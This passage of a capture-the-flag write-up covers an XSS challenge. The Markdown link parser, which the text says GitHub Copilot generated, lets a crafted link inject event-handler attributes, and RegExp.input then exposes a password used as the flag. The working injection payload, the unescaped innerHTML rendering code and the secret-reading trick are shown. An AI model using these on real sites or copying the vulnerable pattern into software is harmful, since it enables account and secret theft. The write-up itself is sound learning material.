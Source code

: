 ``` js
      });
      text = text.replace(/#\s*([^\n]+)/g, (match, p1) => {
        return `<h1>${p1}</h1>`;
      });
      text = text.replace(/\*\*([^\n]+)\*\*/g, (match, p1) => {
        return `<strong>${p1}</strong>`;
      });
      text = text.replace(/\*([^\n]+)\*/g, (match, p1) => {
        return `<em>${p1}</em>`;
      });
    }

    document.querySelector('.note').innerHTML = text;
    document.querySelector('.views').innerText = views;
  })();
})();
```

The part that parses Markdown looks like it can be XSS:

``` js
text = text.replace(/\[([^\]]+)\]\(([^\)]+)\)/g, (match, p1, p2) => {
        return `<a href="${p2}">${p1}</a>`;
      });
```

Afterwards, the author said that he didn't intend to leave a loophole here, but GitHub copilot wrote it out XD, but he thought it was interesting and left it.

This XSS loophole is not difficult to find:

``` js
var text = '[abc](123" onfocus=alert`1` autofocus=")'
text = text.replace(/\[([^\]]+)\]\(([^\)]+)\)/g, (match, p1, p2) => {
  return `<a href="${p2}">${p1}</a>`;
});
console.log(text)
// <a href="123" onfocus=alert`1` autofocus="">abc</a>
```

But the problem is, once you have XSS, how do you steal the password (which is the flag for this question)?

At the time, I couldn't figure out how to steal the password, but after the competition, I saw the writeup and learned about a magical attribute: [RegExp.input](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/RegExp/input). This attribute can get the last input of the RegExp, for example:

``` js
/a/.test('secret password')
console.log(RegExp.input) // secret password
```

And the password is the last input that was thrown into `/^[^$']+$/.test()`, so you can get the password through this. This is really mind-blowing.
